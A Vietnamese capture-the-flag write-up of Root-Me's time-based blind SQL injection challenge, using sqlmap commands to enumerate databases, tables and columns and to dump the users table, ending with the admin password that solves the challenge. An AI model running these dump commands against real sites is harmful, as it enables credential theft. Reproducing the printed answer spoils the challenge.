

# Challenge: SQL injection - Time based 
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-Time-based


- Ban đầu vào thì thử thách cho chúng tra 2 trang, một trang login và một trang member
<p align="center"></p>
<p align="center"></p>
<p align="center"></p>

- Bài này thử với lỗi ở union ở member tuy nhiên ta không thể nhìn thấy được nó
- Đọc bài tham khảo được đính kèm trong challenge bài này nói về `Time-Based Blind SQL 
Injection`, ta thử tìm hiểu thêm về nó trên google
<p align="center"></p>

- OK, bài tham khảo thì hướng dẫn dùng Heavy Queries để attack lỗi này, ta dùng hẳn luôn công cụ sql 
https://bmacharia.com/2021/06/07/exploiting-time-based-blind-sql-injection-with-sqlmap/

- Để lấy thông tin các database ta dùng
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --dbs

<p align="center"></p>
<p align="center"></p>

- Khi đó ta thấy rằng có 1 database là `public`, tiếp tục ta liệt kê các bảng có trong database public
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public --tables
<p align="center"></p>

- Có 1 bảng users, ta tiếp tục liệt kê các cột có trong bảng table 
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public -T users --columns
<p align="center"></p>

- Có 1 bảng users, ta tiếp tục liệt kê các cột có trong bảng table 
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public -T users --columns
<p align="center"></p>
--> password, username, id


- Hiển thị username, password có trong bảng users:
>sqlmap -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" -D public -T users -C id,usermame,password --dump
<p align="center"></p>

--> trường username trống, ta kết hợp với thông tin output từ màn hình dựa trên id
<p align="center"></p>

```
username: admin
password: T!m3B@s3DSQL!
```

## Kết quả password là `T!m3B@s3DSQL!`